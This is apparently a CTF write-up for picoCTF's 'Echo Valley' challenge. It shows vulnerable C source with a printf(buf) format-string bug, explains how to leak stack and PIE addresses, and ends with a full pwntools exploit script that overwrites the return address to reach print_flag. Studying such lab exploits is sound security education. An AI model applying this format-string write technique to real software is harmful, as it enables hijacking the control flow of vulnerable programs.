




The binary for this problem can be downloaded here.
The source code of the binary is as below.
#include
#include
#include
void print_flag() {
char buf[32];
FILE *file = fopen("/home/valley/flag.txt", "r");
if (file == NULL) {
perror("Failed to open flag file");
exit(EXIT_FAILURE);
}
fgets(buf, sizeof(buf), file);
printf("Congrats! Here is your flag: %s", buf);
fclose(file);
exit(EXIT_SUCCESS);
}
void echo_valley() {
printf("Welcome to the Echo Valley, Try Shouting: \n");
char buf[100];
while(1)
{
fflush(stdout);
if (fgets(buf, sizeof(buf), stdin) == NULL) {
printf("\nEOF detected. Exiting...\n");
exit(0);
}
if (strcmp(buf, "exit\n") == 0) {
printf("The Valley Disappears\n");
break;
}
printf("You heard in the distance: ");
printf(buf);
fflush(stdout);
}
fflush(stdout);
}
int main()
{
echo_valley();
return 0;
}
Looking at the source code, I identified that there was a format string bug in printf(buf) which I could exploit.
Running checksec revealed that PIE and full RELRO were enabled. I knew I could bypass PIE and obtain the runtime address
of print_flag by leaking the return address of echo_valley()'s stack frame.

I drew the diagram of the stack(shown below) and realized the return address of echo_valley was always stored 8 bytes below
where its saved frame pointer points to in the stack, meaning that if I leaked the saved frame pointer with the format string bug, I
could calculate where the return address of echo_valley was stored in the stack, and overwrite it via the format string bug.

From the disassembly of main I obtained the offset of 0x1413 from the leaked return address witch which I could get the PIE base and
calculate the runtime address of print_flag.

I then constructed an exploit that would first leak the return address and saved frame pointer of echo_valley, and then subsequently
overwrite each byte of the return address via the payload below.

The exploit code is as below.
#!/usr/bin/python3
from pwn import *
def ex():
context.log_level = "debug"
e = ELF("./valley")
# p = process("./valley")
p = remote("shape-facility.picoctf.net", 50714)
# pause()
p.recvuntil(b": ")
p.sendline(b"%20$p.%21$p")
p.recvuntil(b": ")
stack_loc = int(p.recvuntil(b".", drop=True), 16) - 8
pie_base = int(p.recvline(), 16) - 0x1413
print_flag_addr = pie_base + e.symbols["print_flag"]
print(f"{pie_base=:x}")
print(f"{print_flag_addr=:x}")
print(f"{stack_loc=:x}")
print_flag_array = list(map(int, p64(print_flag_addr)))
print(print_flag_array)
for i in range(6):
sleep(0.1)
p.sendline(f"%{print_flag_array[i]:03d}c%8$hhn{'A'*5}".encode("ascii") + p64(stack_loc + i))
sleep(0.1)
p.sendline(b"exit")
p.interactive()
if __name__ == "__main__": ex()